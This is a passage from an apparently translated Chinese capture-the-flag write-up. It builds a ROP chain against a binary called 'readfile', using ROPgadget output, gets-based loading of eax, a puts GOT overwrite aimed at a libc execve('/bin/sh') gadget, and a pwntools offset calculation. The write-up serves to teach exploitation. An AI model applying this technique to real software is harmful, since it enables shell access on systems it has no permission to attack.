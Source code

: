 ```
   f 3 41414145
   f 4 41414146
```



**现在我们看一下ROP**

****

通过读取服务器上的 /etc/os-release，我们知道该服务器是 Ubuntu 14 机器。我们现在使用的也是 Ubuntu 14 机，所以我们假定这是相同的 libc。（请注意，由于游戏服务器已经过期，所以我们最后没有在该游戏服务器中测试这个链接。先假设本地环境与游戏服务器完全一致)

有很多 ROP 链的可能结果，所以让我们尝试调用magic ROP gadget来从libc中调用execve('/ bin/sh '，0，0)。我们在 libc_base + 0x40069 里面发现了这个小工具。通常情况下，用户会在之前就调用它，但因为我们在过程中重写了，所以我们可以简单地将 eax 设置为/bin/sh，然后调用其余的操作说明。
<li>
<pre>`text:00040069                 mov     [esp+16Ch+status], eax`</pre>
</li>
<li>
<pre>`text:0004006C                 call    execve`</pre>
</li>
  使用ROPgadget –depth 50 –binary readfile可以在二进制文件中发现两个有用的小工具。

```
0x080486af : mov eax, dword ptr [0x804a088] ; cmp eax, ebx ; jb 0x80486ba ; mov byte ptr [0x804a084], 1 ; add esp, 4 ; pop ebx ; pop ebp ; ret
```



```
0x080486be : add dword ptr [ebx + 0x5d5b04c4], eax ; ret
```



结果就是，在此二进制文件没有一个简单的pop eax; ret，所以我们必须现写一个值放入eax 。这时候第一个小工具就派上用场了。第一个小工具会从 0x804a088 取出某个值，然后将该值放入 eax。现在我们要问"我们怎样才能在 0x804a088中得到一个值"？幸运的是，gets可以直接进入二进制文件。所以我们能够将一个值放入 eax 的保险做法如下︰

ROP进入gets(0x804a088)

发送一个存储在 0x804a088的值

ROP进入 0x80486af中将那个值放入eax

我们需要预设 ebx 为零，以使它永远无法通过 cmp eax、 ebx 检查。利用一个简单的pop ebx; pop ebp; ret就很容易达到。这个相同的小工具之后，我们还会看到一个pop ebx。所以还可以利用这个小工具将任意值放入 ebx。这很重要，因为第二个工具可以用来在地址+ 0x5d5b04c4将一个常量添加到 ebx  。

我们的攻击计划是将一个常量值添加到puts GOT条目，这样结果就会指向 libc 地址。我们可以通过使用 pwntools找出所需添加的值（我们选择任意添加）。



```
&gt;&gt;&gt; from pwn import *
&gt;&gt;&gt; elf = ELF('libc-2.19.so')
&gt;&gt;&gt; # 0x40069 is from the above magic libc offset
&gt;&gt;&gt; print(0x40069 - elf.symbols['puts'])
-153075
&gt;&gt;&gt; hex(0xffffffff-153075)
'0xfffdaa19'
```
